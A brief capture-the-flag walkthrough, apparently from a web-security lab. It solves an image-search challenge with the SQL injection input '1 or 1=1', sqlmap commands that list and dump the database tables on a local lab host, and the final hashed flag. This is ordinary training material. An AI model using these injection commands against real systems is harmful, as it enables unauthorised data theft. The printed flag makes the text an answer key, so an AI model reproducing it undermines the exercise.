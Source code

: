 1. first go search images and type "1 or 1=1"
2. open your terminal type "sqlmap.py --url="http://192.168.1.117/index.php?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables"
3. it will list all the tables.
4. then type "sqlmap.py --url="http://192.168.1.117/index.php?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T list_images"
5. you will see the flag and will need to decode it which will give you albatroz.
6. the you need to encrypt it with sha256 and you will give you the correct flag "f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188"